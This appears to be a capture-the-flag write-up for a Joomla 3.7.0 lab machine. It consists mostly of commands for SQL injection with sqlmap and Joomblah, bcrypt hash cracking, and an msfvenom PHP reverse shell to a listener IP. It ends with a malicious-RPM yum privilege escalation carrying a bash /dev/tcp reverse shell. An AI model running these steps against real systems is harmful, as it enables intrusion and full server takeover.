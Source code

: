 1)
- go to exploit db
- type joomla sqli
- in the exploit it tells us that the version is 3.7.0
2)
- searchsploit joomla 3.7.0
-  cat /usr/share/exploitdb/exploits/php/webapps/42033.txt
- sqlmap -u "http://IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs=MySql -p list[fullordering] --dump
- sqlmap -u "http://IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
- That was the proper way of doing this challenge, however it is very inconsistant and takes hours, i found a github script which bypasses this step (in retrospect the challenge tells me sqlmap was a bad way anyway), https://github.com/XiphosResearch/exploits/tree/master/Joomblah
- python joomblah.py http://IP
- Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
- put the hash you get into hash.txt
- sudo john hash.txt --wordlist=rockyou.txt
- or hashcat -a 0 -m 3200 hash.txt rockyou.txt
- sadly either will take along time, 15-30 mins
- spiderman123
3)
- log into jonah on IP/administrator
- go to extensions > templates > Beez3 > index.php
- replace the php with a rever shell and listen on a port
- msfvenom -p php/meterpreter/reverse_tcp lhost=10.11.13.209 lport=1234 R
- nc -lvnp 1234
- you have a shell
- I couldnt do much with this shell so i tried a different method
- msfvenom -p php/meterpreter/reverse_tcp lhost=10.11.13.209 lport=1234 R
- replace the php code with the output of the prior command
- msfconsole > use exploit/multi/handler > set payload php/meterpreter/reverse_tcp > set lhost tun0 > set lport 1234 > run
- on the website click view preview and you now have a meterpreter shell but still have no access
- whoami reveals we are "apache" so i look for the apache folder with find / -name 'conf' 2>/dev/null
- /etc/httpd/conf is revealed
- reading conf hints at /var/www/html
- in this folder there is configuration.php which contains passwords and user for the mysql database

- public $user = 'root';
- public $password = 'nv5uz9r3ZEDzVjNu';

- mysql -h IP -u root -p nv5uz9r3ZEDzVjNu
- didnt seem to work so i tried this as the password to jjameson
- su jjameson
- it worked. cat jjameson/user.txt
4)
- sudo -l tells us we have access to /usr/bin/yum
- make sure you have fpm and rpm installed
- make a file containing ```#!/bin/bash \n bash -i .& /devl/tcp/tun0/1235 0>&1```
- fpm -n root -s dir -t rpm -a all --before-install root.sh ./root.sh
- upload root-1.0-1.noarch.rpm
- sudo /usr/bin/yum  install -y root-1.0-1.noarch.rpm
- nc -lvnp 1235
- cat /root/root.txt